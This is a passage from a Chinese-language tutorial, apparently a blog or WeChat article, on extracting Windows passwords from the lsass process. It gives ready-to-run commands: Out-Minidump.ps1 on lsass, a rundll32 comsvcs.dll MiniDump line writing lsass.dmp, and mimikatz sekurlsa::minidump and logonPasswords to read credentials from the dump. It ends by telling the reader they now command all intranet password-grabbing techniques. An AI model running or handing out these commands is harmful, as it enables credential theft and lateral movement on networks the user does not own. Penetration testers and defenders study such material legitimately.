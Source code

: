 ```
命令：powershell-import Out-Minidump.ps1和powershell Get-Process lsass | Out-Minidump
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MOIP4wQkU2G6Vr1ibyAaf118RJYcpxm7cekt3x1y4VJOchnk3HkDXdHw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MCSh6ogZLem8kxvnCG2faP9rKhnzDYoziaYLvzhyJHcRNpHmHFaTmIEg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MzVOrmAWxdAj7oZo4eBqfwvDbvWBBB46q4KPfuD3GrsHbiaGfVly8vicw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

**方法四：使用comsvcs.dll导出（windows系统自带）**

- 
- 

```
命令：shell tasklist | findstr lsass.exe
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MJoYw8mEiatWoOM1fcddg6m0uRVyVgmpsyoWUVWZcoic1kFG1DBSnyyAw/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

- 
- 

```
命令：shell powershell.exe rundll32 C:\windows\system32\comsvcs.dll,MiniDump 576 C:\Users\Administrator\Desktop\lsass.dmp full
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MpBZ15MfzuibCFecMZaducUeKGwmUNu5espx79k1K6iaxsEhric3KJVtOQ/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MHozLOeJfISutHm7DU2pcgIU8rh9E7oNocbAfpzGSeJ98tjlCT0mJwA/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)

(2) 使用mimikatz工具读取导出的Lsass.exe进程：

- 
- 
- 
- 

```
命令：sekurlsa::minidump lsass.DMP和sekurlsa::logonPasswords full
```

**![图片](https://mmbiz.qpic.cn/sz_mmbiz_png/MicZ6Q9ZW0xDm1loruQWy5RCLpAGfOU2MgDRvsLwkfDMY1B7A83qtKykp8XicKLI3skb2THqXu69Ep1aYtXNFmmg/640?wx_fmt=png&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1)**

**行文至此，你已经掌握了内网所有的抓取密码技术！**